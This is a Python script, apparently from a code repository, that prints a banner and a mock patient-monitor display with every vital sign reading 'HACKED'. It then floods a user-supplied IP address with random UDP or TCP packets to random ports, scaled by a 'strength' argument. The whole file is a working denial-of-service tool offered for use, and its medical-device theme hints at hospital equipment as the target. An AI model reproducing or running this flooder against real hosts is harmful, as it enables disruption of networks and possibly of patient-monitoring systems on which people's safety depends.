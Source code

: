 # Map

###
import socket, sys, random

def banner():
    banner = """[91m
         ███▄ ▄███▓▓█████▄  ██░ ██ 
        ▓██▒▀█▀ ██▒▒██▀ ██▌▓██░ ██▒
        ▓██    ▓██░░██   █▌▒██▀▀██░
        ▒██    ▒██ ░▓█▄   ▌░▓█ ░██ 
        ▒██▒   ░██▒░▒████▓ ░▓█▒░██▓
        ░ ▒░   ░  ░ ▒▒▓  ▒  ▒ ░░▒░▒
        ░  ░      ░ ░ ▒  ▒  ▒ ░▒░ ░
        ░      ░    ░ ░  ░  ░  ░░ ░
        ░      ░     ░  ░  ░
                        ░             
    [0m"""
    print(banner)

def simulate_hacked_data():
    # Simulating vital signs all set to "HACKED"
    vital_signs = {
        "NIBP": {"Systolic": "HACKED", "Diastolic": "HACKED"},
        "SpO2": "HACKED",
        "PR": "HACKED",
        "Temp": "HACKED",
    }

    print("\nSimulated Vital Signs (HACKED):")
    print("-------------------------------")
    print(f"Blood Pressure: {vital_signs['NIBP']['Systolic']}/{vital_signs['NIBP']['Diastolic']}")
    print(f"SpO2: {vital_signs['SpO2']}")
    print(f"Pulse Rate: {vital_signs['PR']}")
    print(f"Temperature: {vital_signs['Temp']}")
    print("-------------------------------")
    print("All values indicate a potential system compromise. Immediate attention required!\n")

def flood(ip, protocol, strength):
    client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM if protocol == 'udp' else socket.SOCK_STREAM)
    data = random._urandom(1024 * strength)
    total_packets = strength * 10000000  

    try:
        for i in range(total_packets):
            try:
                if protocol == 'tcp':
                    client.connect((ip, random.randint(1, 65535)))
                client.sendto(data, (ip, random.randint(1, 65535)))
            except:
                pass
            
            progress = (i + 1) / total_packets
            bar_length = 50  
            filled_length = int(bar_length * progress)
            bar = '█' * filled_length + '-' * (bar_length - filled_length)
            print(f"\r|{bar}| {progress * 100:.2f}%", end="")
    except KeyboardInterrupt:
        sys.exit(0)

if __name__ == "__main__":
    banner()
    simulate_hacked_data()  # Add hacked data simulation here

    if len(sys.argv) != 4:
        print("Usage: python script.py <ip> <protocol> <strength (1-5)>")
        sys.exit(1)

    _, ip, protocol, strength = sys.argv
    strength = int(strength)
    if strength < 1 or strength > 5:
        print("Strength must be between 1 and 5")
        sys.exit(1)

    flood(ip, protocol, strength)
